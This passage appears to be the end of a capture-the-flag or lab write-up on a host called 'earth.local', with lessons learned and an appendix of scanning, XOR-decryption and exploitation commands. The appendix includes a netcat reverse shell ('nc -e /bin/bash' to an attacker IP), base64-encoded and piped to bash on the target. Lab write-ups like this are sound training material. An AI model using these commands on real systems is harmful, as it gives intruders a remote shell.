 ## 9. Lessons Learned

* Don’t rely on ad-hoc encryption (XOR) for protecting credentials — keys that are available on the host defeat the protection.
* SUID binaries are extremely dangerous — minimal SUID surface area is best practice.
* Certificate metadata can leak valuable operational details; check SANs during reconnaissance.
* Combining automated scanning (Nessus) and manual tooling (Burp, CyberChef, Metasploit) yields the best results.

---

## 10. Appendix — Commands & Scripts

**Hosts file**

```bash
sudo sh -c 'echo "192.168.10.13 earth.local" >> /etc/hosts'
sudo sh -c 'echo "192.168.10.13 terratest.earth.local" >> /etc/hosts'
```

**Scanning**

```bash
nmap -sV -p- -v 192.168.10.13 -oN nmap_full.txt
```

**Web discovery**

```bash
dirb http://earth.local -o dirb_earth.txt
dirb https://terratest.earth.local -o dirb_terratest.txt
curl -sS https://terratest.earth.local/robots.txt
```

**Decrypt (local XOR) using CyberChef or Python**

```python
# example XOR decryption in Python
from itertools import cycle

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes(a ^ b for a, b in zip(data, cycle(key)))

cipher = bytes.fromhex('...')  # if ciphertext hex
key = open('testdata.txt','rb').read()
print(xor_decrypt(cipher, key))
```

**Reverse shell (netcat method)**

```bash
# On attacker
nc -lvnp 4444

# Generate the string to paste on target
echo 'nc -e /bin/bash 192.168.10.10 4444' | base64

# On target (via admin CLI)
echo 'BASE64_STRING' | base64 -d | bash
```
